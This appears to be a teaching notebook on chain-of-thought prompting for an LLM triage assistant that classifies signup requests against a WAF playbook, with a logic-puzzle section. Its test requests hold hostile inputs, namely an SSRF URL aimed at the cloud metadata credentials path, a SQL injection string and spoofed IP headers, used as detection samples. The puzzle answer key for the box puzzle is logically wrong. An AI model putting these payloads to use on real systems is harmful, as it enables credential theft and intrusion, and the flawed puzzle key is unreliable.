print(f"\nFinal verdict:  {res.get('verdict')} | Rule: {res.get('rule_triggered')} | Confidence: {res.get('confidence')}")
print(f"True answer:    {example['request']['ground_truth_rule']}")

Running guided CoT on 20 requests...

Guided CoT results:
  Verdict accuracy: 20/20 = 100%
  Rule accuracy:    17/20 = 85%

EXAMPLE: Full guided analysis
Request body: {
  "email": "test3@example.com",
  "username": "testuser3",
  "password": "P@ssw0rd123"
}

Step 1 - Headers:         The User-Agent appears to be a legitimate browser string. However, the X-Forwarded-For header contains a private IP address (192.168.1.100), and the True-Client-IP header contains a loopback IP address (127.0.0.1), which could be an attempt to spoof the client's IP address.
Step 2 - Body scan:       The body fields do not appear to contain any obvious injection characters, encoding tricks, or suspicious URLs. The email, username, and password fields seem to be within normal length limits and do not contain any null bytes or binary characters.
Step 3 - Playbook match:  WAF-13 | User-Agent and Header Spoofing, due to the use of a loopback IP in True-Client-IP and a private IP in X-Forwarded-For.
Step 4 - FP

---

# Data comparison

Same requests. Same model. Same playbook. Three different prompting strategies.

Let's put the numbers side by side and look at where each approach breaks down, because the failures are as important as the accuracy with these models.

Method                          Verdict %  Rule Match %
-------------------------------------------------------
Baseline (no reasoning)              100%           85%
Zero-shot CoT (think step by step)       100%           90%
Guided CoT (5-step framework)        100%           85%





Chart saved to /Users/sebastianvargas/Documents/newlife/ai/projects/llm-prompting-labs/modules/02_chain_of_thought/figures/cot_comparison.png


In [25]:
import matplotlib.pyplot as plt

# Comparison table
methods = ["Baseline\n(no reasoning)", "Zero-shot CoT\n(think step by step)", "Guided CoT\n(5-step framework)"]

verdict_scores = [
    verdict_correct / n * 100,
    zs_verdict_correct / n * 100,
    gc_verdict_correct / n * 100
]
rule_scores = [
    rule_correct / n * 100,
    zs_rule_correct / n * 100,
    gc_rule_correct / n * 100
]

# Print table first
print(f"{'Method':<30} {'Verdict %':>10} {'Rule Match %':>13}")
print("-" * 55)
for method, vs, rs in zip(methods, verdict_scores, rule_scores):
    label = method.replace('\n', ' ')
    print(f"{label:<30} {vs:>9.0f}% {rs:>12.0f}%")

# Chart
fig, axes = plt.subplots(1, 2, figsize=(12, 4))
colors = ["#e74c3c", "#f39c12", "#2ecc71"]
short_labels = ["Baseline", "Zero-shot CoT", "Guided CoT"]

for ax, scores, title in zip(axes,
                              [verdict_scores, rule_scores],
                              ["Verdict Accuracy (malicious vs clean)", "Rule Match Accuracy (exact rule ID)"]):
    bars = ax.bar(short_labels, scores, color=colors, edgecolor="white", linewidth=1.5)
    ax.set_ylim(0, 110)
    ax.set_title(title, fontsize=11)
    ax.set_ylabel("Accuracy %")
    ax.grid(axis="y", alpha=0.3)
    for bar, score in zip(bars, scores):
        ax.text(bar.get_x() + bar.get_width() / 2, bar.get_height() + 2,
                f"{score:.0f}%", ha="center", fontsize=11, fontweight="bold")

plt.tight_layout()
plt.savefig(figures_dir / "cot_comparison.png", dpi=150, bbox_inches="tight")
plt.show()

print(f"\nChart saved to {figures_dir / 'cot_comparison.png'}")

In [18]:
# Per-request breakdown, see exactly where each method fails
# This is more useful than just the aggregate score

print("PER-REQUEST BREAKDOWN")
print(f"{'#':<4} {'True Rule':<10} {'Baseline':<10} {'ZS-CoT':<10} {'Guided':<10} {'Notes':<40}")
print("-" * 85)

for i, (req, b_res, zs_res, gc_res) in enumerate(zip(
    sample_requests, baseline_results, zero_shot_cot_results, guided_cot_results
), 1):
    true_rule = req["ground_truth_rule"]
    b_rule = b_res["result"].get("rule_triggered", "?")
    zs_rule = zs_res["result"].get("rule_triggered", "?")
    gc_rule = gc_res["result"].get("rule_triggered", "?")

    b_mark  = "✅" if b_rule  == true_rule else "❌"
    zs_mark = "✅" if zs_rule == true_rule else "❌"
    gc_mark = "✅" if gc_rule == true_rule else "❌"

    notes = req.get("notes", "")[:38]
    print(f"{i:<4} {true_rule:<10} {b_mark+b_rule:<10} {zs_mark+zs_rule:<10} {gc_mark+gc_rule:<10} {notes}")

PER-REQUEST BREAKDOWN
#    True Rule  Baseline   ZS-CoT     Guided     Notes                                   
-------------------------------------------------------------------------------------
1    WAF-08     ✅WAF-08    ✅WAF-08    ✅WAF-08    Non-browser User-Agent and sequential 
2    WAF-09     ✅WAF-09    ❌WAF-13    ❌WAF-13    Using loopback IP in True-Client-IP an
3    WAF-10     ✅WAF-10    ✅WAF-10    ✅WAF-10    Missing Sec-Fetch-Site and Sec-Fetch-M
4    WAF-11     ❌WAF-06    ❌WAF-02    ❌WAF-02 and WAF-11 Null byte and script tag in full_name 
5    WAF-12     ✅WAF-12    ✅WAF-12    ✅WAF-12    Request contains SQL comment fragmenta
6    WAF-14     ✅WAF-14    ✅WAF-14    ✅WAF-14    Sequential email pattern with identica
7    WAF-15     ✅WAF-15    ✅WAF-15    ✅WAF-15    Using a commonly breached password 'Qw
8    NONE       ✅NONE      ✅NONE      ✅NONE      Legitimate signup from a real browser 
9    NONE       ✅NONE      ✅NONE      ✅NONE      Legitimate signup — Firefox browser, l
10

Look at the rows where guided CoT gets it right and the others don't. Those are the cases where the structured reasoning chain is doing real work, not just adding verbosity, but actually catching something the shortcut missed.

Also look at the rows where all three fail. Those are your hardest cases. Keep them in mind for the lab section, they're the ones worth focusing your custom prompt on.

---

# CoT Failure Modes

CoT is great, but it has specific failure modes that matter in a security context. Let's look at the three most dangerous ones directly.

## Failure Mode 1: Premise Poisoning

If the model makes a wrong assumption in Step 1, that error propagates through every step that follows. The chain looks coherent, but it's reasoning from a false premise. This is the hardest failure to catch because the output reads well. Let's say it could poison the following results

In [ ]:

# The attack is in an unusual field, the model may clasify headers as clean and then not look the body content

poisoning_request = {
    "method": "POST",
    "path": "/api/v1/signup",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 Chrome/120.0.0.0",
        "Content-Type": "application/json",
        "Accept": "application/json",
        "Accept-Language": "en-US,en;q=0.9",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "cors",
        "Cookie": "session_init=a3b2c1d4"
    },
    "body": {
        "email": "john.smith@gmail.com",
        "username": "johnsmith2024",
        "password": "Sunshine123!",
        "display_name": "John Smith",
        "profile_picture_url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"
    },
    "ground_truth_rule": "WAF-07",
    "ground_truth_action": "BLOCK"
}

print("Premise poisoning testing...")
print("The headers look completely clean. The attack is in profile_picture_url.")
print("A model that concludes 'headers look fine, likely legitimate' may stop looking.\n")

result = classify_guided_cot(poisoning_request)

print(f"Step 1 (Headers):    {result.get('step1_headers', '')[:120]}")
print(f"Step 2 (Body):       {result.get('step2_body', '')[:120]}")
print(f"Step 3 (Match):      {result.get('step3_playbook_match', '')[:120]}")
print(f"Step 4 (FP check):   {result.get('step4_false_positive_check', '')[:120]}")
print()
print(f"Predicted: {result.get('rule_triggered')} | True: WAF-07")
correct = "✅ Caught it" if result.get('rule_triggered') == 'WAF-07' else "❌ Missed — premise poisoning in action"
print(correct)

## Hallucinated Context

The model may reference threat intelligence or contextual facts that aren't in your playbook and weren't in the request. This sounds authoritative, but it's invented. In a security context this is dangerous, you can't act on fabricated evidence.

In [ ]:
# We're looking for claims the model makes that aren't in the input

ambiguous_request = {
    "method": "POST",
    "path": "/api/v1/signup",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 Chrome/118",
        "Content-Type": "application/json",
        "Accept": "*/*",
        "X-Forwarded-For": "185.220.101.34",
        "Accept-Language": "en-US"
    },
    "body": {
        "email": "user4821@protonmail.com",
        "username": "user4821",
        "password": "Welcome1!"
    },
    "ground_truth_rule": "WAF-15",
    "ground_truth_action": "CHALLENGE"
}

print("Hallucinated context test...")
print("The IP 185.220.101.34 is a known Tor exit node in reality, but that fact is NOT in our playbook.")
print("Watch whether the model claims to know this or invents other threat intel.\n")

result = classify_zero_shot_cot(ambiguous_request)
reasoning = result.get('reasoning', '')

print("Model reasoning:")
print(reasoning)
print()
print("--- Analyst note ---")
print("Did the model claim to know what 185.220.101.34 is?")
print("Did it reference threat feeds, ASN data, or reputation scores not in the playbook?")
print("If so: that information was hallucinated. It may be accidentally correct, but it's not grounded.")
print("In production: any claim not traceable to the playbook or the request itself needs a flag.")

## Verbose but Shallow Reasoning

More words don't mean better reasoning. Watch for chains that spend 3 sentences restating what was already in the request before landing on an answer that could have come from a direct classification anyway. Real reasoning connects evidence to a conclusion the model couldn't have reached without working through it. Elaboration just dresses up a guess.

In [ ]:
# We'll compare word count vs information density

verbose_trap = {
    "method": "POST",
    "path": "/api/v1/signup",
    "headers": {
        "User-Agent": "python-requests/2.31.0",
        "Content-Type": "application/json",
        "Accept": "*/*"
    },
    "body": {
        "email": "test@example.com",
        "username": "testuser",
        "password": "password123"
    }
}

result = classify_zero_shot_cot(verbose_trap)
reasoning = result.get('reasoning', '')
words = len(reasoning.split())

print(f"Reasoning word count: {words}")
print(f"Predicted rule: {result.get('rule_triggered')}")
print()
print("Reasoning:")
print(reasoning)
print()
print("--- What to look for ---")
print("Real reasoning: 'User-Agent is python-requests/2.31.0, this identifies a scripting library,")
print("                not a browser. Combined with missing Accept-Language, this matches WAF-08.'")
print()
print("Verbose but shallow: 'The request was sent using python-requests. This is a Python library.")
print("                      Python is a programming language. The User-Agent indicates the requester")
print("                      may be using Python. Python can be used for automation...'")
print()
print("One connects evidence to conclusion. The other elaborates without advancing.")

---

# Structured Output at Scale

Everything above was for understanding the technique. This section shows you how you'd actually deploy it.

In production a WAFs need:
- Consistent, parseable JSON output (no freeform reasoning in the result fields)
- The ability to process a queue of requests, not just one at a time
- A record of the reasoning chain for analyst review, basically your audit trail
- Excelent handling of API failures and parse errors

---

# Live Triage Simulation

This is the end goal.

The security team receives a new HTTP request hitting the signup endpoint. They don't know yet whether it's an attack. The CoT triage assistant processes it end-to-end, routes to the right playbook family, runs the 5-step analysis and hands the SOC analyst a structured verdict with a full reasoning chain.

No guessing. No re-reading the playbook every time. The analyst gets:
- Which rule was triggered and why
- What the evidence was
- Whether a false positive is plausible
- The recommended action to apply.

Below are 3 live requests. Run them through the triage assistant and read the output as an analyst would.

In [ ]:
# 3 new requests the system has never seen
# These are not from the training dataset,  they simulate real incoming traffic

LIVE_REQUESTS = [
    {
        "method": "POST",
        "path": "/api/v1/signup",
        "headers": {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 Chrome/120",
            "Content-Type": "application/json",
            "Accept": "application/json",
            "Accept-Language": "en-US,en;q=0.9",
            "X-Forwarded-For": "10.0.0.1, 185.220.101.50",
            "True-Client-IP": "1.2.3.4",
            "Cookie": "session_init=abc123"
        },
        "body": {
            "email": "newuser@gmail.com",
            "username": "newuser2024",
            "password": "Welcome123!"
        },
        "description": "Request A — headers look mostly normal, something in the IP chain"
    },
    {
        "method": "POST",
        "path": "/api/v1/signup",
        "headers": {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 Chrome/120",
            "Content-Type": "application/json",
            "Accept": "application/json",
            "Accept-Language": "en-GB,en;q=0.8",
            "Sec-Fetch-Site": "same-origin",
            "Sec-Fetch-Mode": "cors",
            "Cookie": "session_init=f9e8d7c6"
        },
        "body": {
            "email": "sarah.j@outlook.com",
            "username": "sarah_j",
            "password": "correct-horse-battery-staple",
            "referral_code": "' OR 1=1--",
            "profile_picture_url": "https://cdn.example.com/avatar.jpg"
        },
        "description": "Request B — browser looks legitimate, something buried in the body"
    },
    {
        "method": "POST",
        "path": "/api/v1/signup",
        "headers": {
            "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 17_2) AppleWebKit/605.1.15 Mobile Safari/604.1",
            "Content-Type": "application/json",
            "Accept": "application/json",
            "Accept-Language": "es-MX,es;q=0.9",
            "Cookie": "session_init=1a2b3c4d"
        },
        "body": {
            "email": "carlos.mendez@gmail.com",
            "username": "carlosmendez",
            "password": "MiCasa2024!",
            "display_name": "Carlos Mendez",
            "profile_picture_url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
        },
        "description": "Request C — mobile signup, everything in the body looks normal except one field"
    }
]

print("Three live requests ready for triage")
for r in LIVE_REQUESTS:
    print(f"  {r['description']}")

In [ ]:
def run_live_triage(request: dict) -> dict:
    """
    Full end-to-end triage using guided CoT.
    Returns a structured analyst report.
    """
    families = route_to_family(request)
    result   = classify_guided_cot(request)

    return {
        "description":    request.get("description", ""),
        "families_routed": families,
        "verdict":         result.get("verdict", "unknown"),
        "rule_triggered":  result.get("rule_triggered", "UNKNOWN"),
        "action":          result.get("action", "UNKNOWN"),
        "confidence":      result.get("confidence", "unknown"),
        "step1_headers":   result.get("step1_headers", ""),
        "step2_body":      result.get("step2_body", ""),
        "step3_rule_match":result.get("step3_rule_match", ""),
        "step4_fp_check":  result.get("step4_fp_check", ""),
        "step5_verdict":   result.get("step5_verdict", ""),
    }


def print_analyst_report(triage: dict):
    """Print triage output formatted as a SOC analyst report."""
    verdict_icon = "🔴" if triage["verdict"] == "malicious" else "🟢" if triage["verdict"] == "clean" else "🟡"
    action_colors = {
        "BLOCK": "🚫", "FLAG_FOR_REVIEW": "🔍",
        "RATE_LIMIT": "⏱", "CHALLENGE": "🔐", "ALLOW": "✅"
    }
    action_icon = action_colors.get(triage["action"], "❓")

    print(f"{'='*65}")
    print(f"  {triage['description']}")
    print(f"{'='*65}")
    print(f"  {verdict_icon}  VERDICT:         {triage['verdict'].upper()}")
    print(f"  RULE TRIGGERED: {triage['rule_triggered']}")
    print(f"  {action_icon}  ACTION:          {triage['action']}")
    print(f"  CONFIDENCE:     {triage['confidence']}")
    print(f"  FAMILIES ROUTED: {triage['families_routed']}")
    print()
    print(f"  REASONING CHAIN:")
    print(f"  Step 1 — Headers:  {triage['step1_headers'][:120]}")
    print(f"  Step 2 — Body:     {triage['step2_body'][:120]}")
    print(f"  Step 3 — Match:    {triage['step3_rule_match'][:120]}")
    print(f"  Step 4 — FP check: {triage['step4_fp_check'][:120]}")
    print(f"  Step 5 — Verdict:  {triage['step5_verdict'][:120]}")
    print()


print("✅ Live triage functions defined")
print("   run_live_triage()       — full end-to-end analysis")
print("   print_analyst_report()  — formatted SOC analyst output")

In [ ]:
print("Running live triage on 3 incoming requests...")
print("This is what the SOC analyst sees when a new request hits the endpoint.\n")

live_results = []

for req in LIVE_REQUESTS:
    triage = run_live_triage(req)
    live_results.append(triage)
    print_analyst_report(triage)
    time.sleep(2)

# Summary for the analyst queue
print(f"{'='*65}")
print("  ANALYST QUEUE SUMMARY")
print(f"{'='*65}")
actions = {"BLOCK": [], "FLAG_FOR_REVIEW": [], "RATE_LIMIT": [], "CHALLENGE": [], "ALLOW": []}
for t in live_results:
    action = t.get("action", "UNKNOWN")
    if action in actions:
        actions[action].append(t["rule_triggered"])

for action, rules in actions.items():
    if rules:
        icon = {"BLOCK": "🚫", "FLAG_FOR_REVIEW": "🔍", "RATE_LIMIT": "⏱",
                "CHALLENGE": "🔐", "ALLOW": "✅"}.get(action, "")
        print(f"  {icon}  {action}: {', '.join(rules)}")

print()
print("Each flagged request comes with a full reasoning chain.")
print("The analyst reviews Step 3 and Step 4 to confirm or override the verdict.")
print("No raw HTTP payload re-reading required.")

In [ ]:
# Save live triage results, in a real system this feeds the analyst review queue
live_output_path = data_dir / "live_triage_results.jsonl"

with open(live_output_path, "w") as f:
    for result in live_results:
        f.write(json.dumps(result, ensure_ascii=False) + "\n")

print(f"Live triage results saved to {live_output_path}")
print()
print("In a real deployment this file feeds:")
print("  - A SIEM alert queue (Splunk, Elastic, Sentinel)")
print("  - An analyst review dashboard")
print("  - An automated response system for high-confidence BLOCK verdicts")
print()
print("The reasoning chain is the audit trail.")
print("Every verdict is traceable to a specific rule, a specific pattern,")
print("and a specific field in the original request.")

## The puzzles - a more basic approach for the model

3 logic problems, each one a little harder than the last.

The easy one is a straightforward chain, follow it in the right direction and you're done. The medium one has a trap built in: two people end up at the same age, and models that don't reason carefully tend to impose an ordering anyway. The hard one requires elimination logic, you have to work through what *cannot* be true before you can conclude what must be.

That escalation is intentional. The easy puzzle will likely be solved correctly by all 3 approaches. The interesting results show up in the medium and hard ones, where skipping a step or jumping to a pattern-matched answer is what causes failures.

In [ ]:
PUZZLES = [
    {
        "id": 1,
        "difficulty": "easy",
        "question": (
            "Alice is taller than Bob. Bob is taller than Carol. Carol is taller than Dana. "
            "Who is the shortest?"
        ),
        "answer": "Dana",
        "why_it_trips_models": "Linear chain — models sometimes confuse direction and pick Alice"
    },
    {
        "id": 2,
        "difficulty": "medium",
        "question": (
            "Alex is older than Blake. Casey is younger than Alex but older than Dana. "
            "Blake and Dana are the same age. "
            "Who is the oldest and who is the youngest?"
        ),
        "answer": "Oldest: Alex. Youngest: Blake and Dana",
        "why_it_trips_models": "The tie is the trap — models often miss that Blake and Dana are equal and place one above the other"
    },
    {
        "id": 3,
        "difficulty": "hard",
        "question": (
            "There are three boxes. One contains a gold coin. The other two are empty. "
            "Every label on every box is wrong. "
            "Box 1 is labeled GOLD. Box 2 is labeled EMPTY. Box 3 is labeled EMPTY. "
            "Which box contains the gold coin?"
        ),
        "answer": "Box 2",
        "why_it_trips_models": "Requires elimination: if all labels are wrong, Box 1 has no gold. Box 3 labeled EMPTY must not be empty but only one has gold, so Box 2 (labeled EMPTY) must contain it"
    },
]

print("Three puzzles loaded: easy, medium, hard")
for p in PUZZLES:
    print(f"  Puzzle {p['id']} ({p['difficulty']}): {p['question'][:60]}...")

## The 3 approaches

We define each prompting strategy as a function. Same model, same puzzle, 3 instructions.

We ask the CoT model to:
1. List every fact stated in the puzzle explicitly
2. Derive the relationships between them
3. Eliminate impossible answers
4. State the conclusion

That structure mirrors what a person actually does when they work through a logic problem carefully if you think about it. The point isn't that the steps are magical, it is that making them explicit forces the model to do the work instead of pattern-matching to a guess.

In [ ]:
def solve_direct(puzzle_question):
    """No reasoning — just answer the question directly."""
    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": "Answer the following logic puzzle. Give only the answer, no explanation."},
            {"role": "user",   "content": puzzle_question}
        ],
        temperature=0,
        max_tokens=60,
    )
    return response.choices[0].message.content.strip()


def solve_zero_shot_cot(puzzle_question):
    """Zero-shot CoT — one sentence added: think step by step."""
    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": "Answer the following logic puzzle. Think step by step before giving your final answer."},
            {"role": "user",   "content": puzzle_question}
        ],
        temperature=0,
        max_tokens=400,
    )
    return response.choices[0].message.content.strip()


def solve_guided_cot(puzzle_question):
    """Guided CoT — explicit reasoning framework defined in the prompt."""
    system = """Answer the following logic puzzle by following these steps exactly:

Step 1 - List the facts: Write out every statement from the puzzle as a numbered list. Do not infer anything yet.
Step 2 - Derive relationships: Based only on the listed facts, work out what follows. Be explicit.
Step 3 - Eliminate: Cross out any answers that cannot be correct given what you derived.
Step 4 - Conclude: State the final answer clearly.

Do not skip steps. Do not jump to the answer before completing all four steps."""

    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": system},
            {"role": "user",   "content": puzzle_question}
        ],
        temperature=0,
        max_tokens=600,
    )
    return response.choices[0].message.content.strip()


print("Three solvers defined")
print("  solve_direct        - no reasoning")
print("  solve_zero_shot_cot - think step by step")
print("  solve_guided_cot    - 4-step explicit framework")

## Run all 3 approaches on all 3 puzzles

9 calls in total. The output will show the full response from each approach so you can read the reasoning, not just whether it got the answer right, but how it got there or where it fell apart.

Read through everything before moving to the scoring cell. The interesting part with this one is not the final verdict, it is the moment where a failing chain takes a wrong turn.

In [ ]:
puzzle_results = []

for puzzle in PUZZLES:
    print(f"{'='*60}")
    print(f"Puzzle {puzzle['id']} ({puzzle['difficulty']})")
    print(f"Question: {puzzle['question']}")
    print(f"Correct answer: {puzzle['answer']}")
    print()

    direct  = solve_direct(puzzle["question"])
    time.sleep(0.5)
    zs_cot  = solve_zero_shot_cot(puzzle["question"])
    time.sleep(0.5)
    guided  = solve_guided_cot(puzzle["question"])
    time.sleep(0.5)

    puzzle_results.append({
        "puzzle": puzzle,
        "direct": direct,
        "zero_shot_cot": zs_cot,
        "guided_cot": guided,
    })

    print("--- DIRECT ---")
    print(direct)
    print()
    print("--- ZERO-SHOT COT ---")
    print(zs_cot)
    print()
    print("--- GUIDED COT ---")
    print(guided)
    print()

## Scoring

READ THIS SECTION before running this cell. The score matters less than which puzzles each approach gets wrong and what the reasoning looked like when it failed.

On the easy puzzle, all 3 approaches will likely get it right. that is expected.

On the medium puzzle, the tie is the trap. Watch whether direct and zero-shot CoT both miss that Blake and Dana are equal.

On the hard puzzle, the elimination logic is where models break down without structure. The guided CoT models forces them to work through what cannot be true before concluding what must be.

In [ ]:
def check_answer(response, correct):
    """Loose match — check if the key answer terms appear in the response."""
    key_terms = [t.strip().lower() for t in correct.lower().replace(".", "").split() if len(t.strip()) > 2]
    response_lower = response.lower()
    return any(term in response_lower for term in key_terms)


print(f"{'Puzzle':<10} {'Difficulty':<12} {'Direct':^10} {'Zero-shot CoT':^15} {'Guided CoT':^12}")
print("-" * 62)

scores = {"direct": 0, "zero_shot_cot": 0, "guided_cot": 0}

for r in puzzle_results:
    p = r["puzzle"]
    correct = p["answer"]

    d_ok  = check_answer(r["direct"],       correct)
    zs_ok = check_answer(r["zero_shot_cot"], correct)
    gc_ok = check_answer(r["guided_cot"],    correct)

    scores["direct"]        += d_ok
    scores["zero_shot_cot"] += zs_ok
    scores["guided_cot"]    += gc_ok

    d_m  = "✅" if d_ok  else "❌"
    zs_m = "✅" if zs_ok else "❌"
    gc_m = "✅" if gc_ok else "❌"

    print(f"{str(p['id']):<10} {p['difficulty']:<12} {d_m:^10} {zs_m:^15} {gc_m:^12}")

print("-" * 62)
print(f"{'TOTAL':<10} {'':12} {str(scores['direct'])+'/3':^10} {str(scores['zero_shot_cot'])+'/3':^15} {str(scores['guided_cot'])+'/3':^12}")
print()
print("Why each puzzle trips models up:")
for r in puzzle_results:
    p = r["puzzle"]
    print(f"  Puzzle {p['id']} ({p['difficulty']}): {p['why_it_trips_models']}")

## What this lab actually shows

The puzzles are not the point. The point is what happened to the model's behavior when you changed single thing about the prompt.

Direct classification asks the model to reach a destination without a path. It either knows the shortcut or it guesses.

Zero-shot CoT opens a path but lets the model choose its own route. Sounds better, but it might be inconsistent, sometimes it skips a step, sometimes it circles back.

Guided CoT defines the route explicitly. Every request, every puzzle, every decision follows the same process. The model can't skip what you have not allowed it to skip.

That consistency is what makes it ready for prod. Not just more accurate, predictable. And in security, predictable beats clever.

---

# What we built in this module

Let's make a summary

You started with a fresh WAF playbook, 15 rules, structured documentation, built from real attack patterns. Then you used that same documentation as the reasoning context for a model, and showed it how to walk through requests the same way a security analyst would.

That's the core idea of guided Chain-of-Thought in a production setting:
- The playbook is the knowledge base
- The CoT framework is the reasoning process
- The structured JSON output is the integration point for the rest of the system

The audit trail, the reasoning chain in every triage result is what makes this trustworthy enough to use in a real workflow. An analyst reviewing a request doesn't have to guess why the model flagged it. The reasoning is right there.

## What we'll see in the next module

A few things I'll try to double check:

- **Structured output is non-negotiable in production:** Free-form reasoning is useful for debugging, not for downstream systems. Always define the output schema explicitly in the prompt.
- **The reasoning chain is an audit artifact, not just a prompting trick:** In regulated environments, being able to show *why* a decision was made matters as much as the decision itself.
- **CoT fails when the model doesn't have the right context:** The quality of your reasoning is bounded by the quality of the playbook you give it. Garbage in, confident reasoning out.

## Next module

**[Module 3 | Meta Prompting →](../../03_meta_prompting/notebooks/03_meta_prompting.ipynb)**